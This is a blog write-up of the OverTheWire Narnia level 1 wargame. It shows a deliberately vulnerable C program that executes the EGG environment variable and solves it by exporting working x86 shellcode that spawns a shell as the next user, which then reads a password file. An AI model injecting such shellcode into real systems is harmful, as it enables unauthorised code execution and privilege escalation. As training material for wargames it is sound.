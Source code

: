 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 1 -> 2"
subtitle:   "Write-Up"
date:       2017-02-02 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Overthewire
---
```


<p>Another month, another challenge, next part of OverTheWire's Narnia wargames. Unfortunately lack of time, made it impossible for me to publish anything sooner. Sorry for that!</p>

<h1>Challenge</h1>

<p>Firstly let's take a look at the code of the program. </p>

{% highlight c %}
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){    
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}

{% endhighlight %}

<p>The first thing that I see is that this program will check, whether or not the value of EGG variable is empty, if yes, it will print the message. But if not, it will try to execute it. </p>

<p>But what is enviromental variable? </p>

<p>Every time shell session is started, process is gathering information that should be available to the shell process and all child processes, putting them in special area called <b>enviroment</b>. </p>

<p><b>Enviromental variables</b> provide a way to influence the behaviour of software on the system. For example, the "LANG" environment variable determines the language in which software programs communicate with the user. They are represented as an key-value pairs. </p>

<pre>
KEY=VALUE
KEY=VALUE1:VALUE2
KEY="VALUE WITH SPACES"
</pre>

<p>Now when we understand the topic, let's try to set EGG variable as some random text possibly causing the program to crash. </p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"="completelyrandomtext"
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
Segmentation fault
{% endhighlight %}

<p>Yes! Now let's try and find some x86 shellcode that will be executed by the program. What I found working, was this <a href="http://shell-storm.org/shellcode/files/shellcode-811.php">shellcode</a>, which was actually second one I've tried - the first one didn't want to cooperate ;)</p>

{% highlight bash %}
narnia1@melinda:/narnia$ export "EGG"=$'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
narnia1@melinda:/narnia$ ./narnia1
Trying to execute EGG!
$ whoami
narnia2
$ cat /etc/narnia_pass/narnia2
{% endhighlight %}

<p>We have the password to the next level! </p>

<h1>Conclusion</h1>

<p>It was another great challenge from <a href="www.overthewire.org">OverTheWire</a>. I'm looking forward to the next one, maybe something a little bit harder? We'll see!</p>
